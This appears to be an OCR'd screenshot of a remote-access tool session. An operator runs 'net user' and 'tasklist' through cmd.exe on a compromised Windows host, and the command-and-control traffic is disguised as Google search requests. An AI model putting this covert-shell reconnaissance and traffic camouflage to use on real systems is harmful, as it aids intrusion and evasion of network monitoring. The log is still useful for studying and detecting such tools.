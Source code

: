 ```plain
Content-Length: 00000023
Connection: keep-alive


win-JMKXXXXXOT\admin

33 指令 - 请输入需执行的命令：quit-返回上层指令
>cmd.exe /c net user
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 20


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00000210
Connection: keep-alive



\\WIN-JMKXXXXXOT 的用户帐户

-------------------------------------------------------------------------------
admin                    Administrator            Guest
命令成功完成。


33 指令 - 请输入需执行的命令：quit-返回上层指令
>cmd.exe /c tasklist
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 20


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00003434
Connection: keep-alive



映像名称                       PID 会话名              会话#       内存使用
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0         24 K
System                           4 Services                   0      4,308 K
smss.exe                       284 Services                   0        976 K
csrss.exe                      372 Services                   0      5,720 K
wininit.exe                    404 Services                   0      4,464 K
csrss.exe                      424 Console                    1     43,008 K
services.exe                   468 Services                   0      8,528 K
winlogon.exe                   500 Console                    1      6,132 K
lsass.exe                      512 Services                   0     10,048 K
lsm.exe                        528 Services                   0      3,864 K
svchost.exe                    636 Services                   0      8,696 K
svchost.exe                    712 Services                   0      8,556 K
svchost.exe                    796 Services                   0     22,480 K
svchost.exe                    848 Services                   0     12,256 K
svchost.exe                    888 Services                   0     35,232 K
svchost.exe                    128 Services                   0     13,460 K
svchost.exe                    584 Services                   0     72,576 K
spoolsv.exe                   1108 Services                   0      8,548 K
```